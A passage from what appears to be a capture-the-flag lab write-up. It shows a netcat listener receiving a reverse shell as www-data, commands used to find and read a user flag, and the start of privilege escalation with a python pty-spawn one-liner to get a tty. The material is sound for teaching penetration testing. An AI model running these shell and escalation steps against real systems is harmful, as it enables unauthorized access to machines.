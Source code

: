 And we get a proper shell on our listener.

```
┌─[tester@parrot-virtual]─[~/Downloads/affinity]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.91.135] from (UNKNOWN) [10.10.157.210] 50814
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/var/www/html
```

The next thing we need to do is go to `/home` directory and look for the user flag.

```
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root     root     4096 Jul 26  2019 .
drwxr-xr-x 24 root     root     4096 Jul 26  2019 ..
drwx--x--x  2 www-data www-data 4096 Jul 26  2019 www-data
$ cd www-data
$ ls -la
total 12
drwx--x--x 2 www-data www-data 4096 Jul 26  2019 .
drwxr-xr-x 3 root     root     4096 Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
$ cat flag.txt
```

And there we get the user flag!

### Privilege Escalation

The next task is to get the root flag. For this, we can first check the command that we can run with sudo privilege with the command `sudo -l` but we get an error.

```
$ sudo -l
sudo: no tty present and no askpass program specified
```

To resolve this issue, we need to gain a tty which can be obtained using a python one-liner:

```
$python -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/home/www-data$ 
www-data@ubuntu:/home/www-data$ sudo -l
sudo -l
[sudo] password for www-data:
```

But here we are asked for `www-data`'s password which we don't know. So, we need to look for some other option. 

